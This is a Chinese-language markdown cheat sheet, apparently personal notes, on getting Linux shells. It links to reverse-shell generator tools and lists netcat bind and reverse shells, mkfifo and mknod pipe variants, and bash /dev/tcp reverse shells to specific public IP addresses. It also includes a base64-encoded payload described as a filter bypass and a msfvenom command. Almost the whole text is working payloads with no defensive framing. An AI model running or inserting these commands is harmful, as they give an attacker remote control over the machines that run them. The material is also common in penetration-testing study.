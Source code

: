 ## 生成攻击payload
[https://github.com/0dayCTF/reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator)
https://github.com/t3l3machus/hoaxshell
## Linux反弹Shell使用方法
### NC (netcat)
- 正向shell: 被控端使用nc将/bin/sh绑定到本地6666端口, 控制端主控连接6666
```shell
# 被控端
nc -lvvp 6666 -e /bin/sh
# 控制端
nc <被控端IP> 6666
```
- 反向shell: 被控端使用nc将/bin/sh发送到控制端的6666端口, 控制端监听本地6666端口
```shell
# 被控端
nc -e /bin/sh <控制端IP> 6666
# 控制端
nc -lvvp 6666
```
- 无-e参数反弹shell: mkfifo命令创建一个管道, cat输出给/bin/sh执行, 通过nc传回该管道
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.101 6666 > /tmp/f
# 或
mknod backpipe p; nc 192.168.1.101 6666 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```
Linux mkfifo: https://www.cnblogs.com/old-path-white-cloud/p/11685558.html
Linux mknod: https://man.linuxde.net/mknod
- 正向或反向, 分别需要不同的IP信息(控制端或被控端)
- 参数:
	- `-e` 指定一个文件名, 连接后执行, 有些nc没有\[!dangerous\]
	- `-l` 监听模式
	- `-v` 显示详细信息, `-vv` 更加详细
	- `-n` 禁止`名称/端口`形式的DNS解析, 只使用IP
	- `-p` 指定端口, 位置在最后

### Bash
```shell
# 被控端:
exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done

# 控制端:
nc –lvvp 6666

# base64编码绕过: 
bash -i >& /dev/tcp/47.101.214.85/6666 0>&1
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"
```
```shell
msfvenom -p cmd/unix/reverse_bash lhost=10.10.1.11 lport=6666 -f raw

bash -c '0<&200-;exec 200<>/dev/tcp/192.168.3.32/6666;sh <&200 >&200 2>&200'
```
![[腾讯课堂20230811213414.png]]
